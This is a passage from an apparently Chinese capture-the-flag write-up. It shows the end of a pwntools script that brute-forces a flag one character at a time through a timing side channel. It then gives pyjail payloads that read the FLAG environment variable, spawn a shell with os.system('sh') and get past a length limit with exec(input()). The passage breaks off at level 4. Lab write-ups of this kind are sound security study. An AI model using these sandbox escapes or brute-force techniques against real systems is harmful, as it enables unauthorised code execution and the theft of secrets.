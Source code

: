 ```python
                if not sh.recvuntil(b'O', timeout=0.25):   # if we can't get 'O' in 0.25s then the char is incorrect
                    print(f'digit {len(flag)} is {probe}') # as we may only succeed n times and fail n * LEN times
                    sh.close()                             # so check failure spend less time (local program runs fast)
                    flag.append(probe)
                    break
                sh.close()
                i += 1
            except EOFError: # here is kinda strange as when we complete correct flag, we get eof
                print(f'digit {len(flag)} is {probe}')
                sh.close()
                flag.append(probe)
                break
        if i == LEN:
            print(f'DICT is not enough for digit {len(flag)}') # fortunately I didn't meet this case
    print(f'now we get the flag: {"".join(flag)}')
```

## 签到

CV工程师一大早上班拿下一血！

## pyjail

### level 1

类似EncodeTrick，只不过没有限制

```python
import os
print(os.environ.get('FLAG'))
```

### level 2

没啥限制，nc连接，直接拿shell

```python
exec('import os;os.system("sh")')
```

### level 3

13字符限制，靠读取绕过

```python
exec(input())
```
### level 4

